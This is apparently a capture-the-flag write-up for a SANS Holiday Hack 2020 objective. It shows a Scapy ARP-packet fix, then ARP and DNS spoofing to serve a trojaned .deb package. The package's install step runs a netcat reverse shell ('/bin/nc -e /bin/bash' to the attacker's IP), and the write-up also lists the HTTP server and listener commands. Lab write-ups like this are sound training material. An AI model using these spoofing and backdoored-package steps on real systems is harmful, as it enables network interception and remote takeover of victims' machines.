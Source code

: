 15. The variable ARP_PACKETS contains an ARP request and response packets. The ARP response (the second packet) has 3 incorrect fields in the ARP layer. Correct the second packet in ARP_PACKETS to be a proper ARP response and then task.submit(ARP_PACKETS) for inspection.
<i><b><span style="color:orange">pkt = ARP_PACKETS[1]</span></i></b>
<i><b><span style="color:orange">pkt[ARP].hwsrc='00:13:46:0b:22:ba'</span></i></b>
<i><b><span style="color:orange">pkt[ARP].hwdst='00:16:ce:6e:8b:24'</span></i></b>
<i><b><span style="color:orange">task.submit(ARP_PACKETS)</span></i></b><br>

<img src=""../ctfs/hh2020/imgs/obj9/scapy_01.PNG"" width=500><br>

### <u>Objective 9: ARP Shenanigans</u> ###
***Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?***<br>
For this challenge spoofing ARP and DNS is necessary, then find a manner to send a malicious .deb package in order to read the file listed<br>
There are both ARP and DNS starter scripts in the /scripts folder and .deb packages in the /debs folder<br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_00.PNG"" width=600><br>

***ARP Spoof*** <br>
Need to find the mac of 10.6.6.53 using <b><i>tcmdump -nei eth0</b></i> which is <b>4c:24:57:ab:ed:84</b> <br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_01.PNG"" width=500><br>
Get local info using <i><b>ifconfig</b></i> and local IP is <b><i>10.6.0.6</b></i> with mac <b><i>02:42:0a:06:00:06</i></b><br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_02.PNG"" width=500><br>
Next update the ARP script with this information<br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_03.PNG"" width=500><br>
With tcpdump running, kick off the updated arp script. There should be a response that 10.6.6.53 is at the local mac address and a dns query to <i>ftp.osuosl.org</i><br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_05.PNG"" width=500><br>
Then update the DNS script the information obtained<br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_06.PNG"" width=600><br>
With tcpdump running, kick off both the updated arp and dns scripts. Leveraging the ability to have multiple terminal windows open.  Additional traffic will show<br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_07.PNG"" width=600><br>
In the additional traffic there is a call to port 80.  With the same setup before, add an additional window with a listner on port 80. This reveals a call to a .deb package<br>
<img src=""../ctfs/hh2020/imgs/obj9/arp_08.PNG"" width=600><br>
Loosely following guide by Offensive Security <a href="https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/">here</a>, a reverse can be obtained.<br>
Package/System setup with the following commands:<br>
<i><b><span style="color:orange">dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb workdir<br>
mkdir -p workdir/DEBIAN<br>
dpkg-deb -e netcat-traditional_1.10-41.1ubuntu1_amd64.deb<br>
cp DEBIAN/postinst DEBIAN/control workdir/DEBIAN/<br>
/bin/nc -e /bin/bash 10.6.0.6 1337<br>
dpkg-deb --build workdir/<br>
mkdir -p pub/jfrost/backdoor<br>
cp workdir.deb pub/jfrost/backdoor/suriv_amd64.deb<br>
cd ~/debs/<br>
python3 -m http.server 80<br>
nc -nlvvp 1337</span></i></b><br>
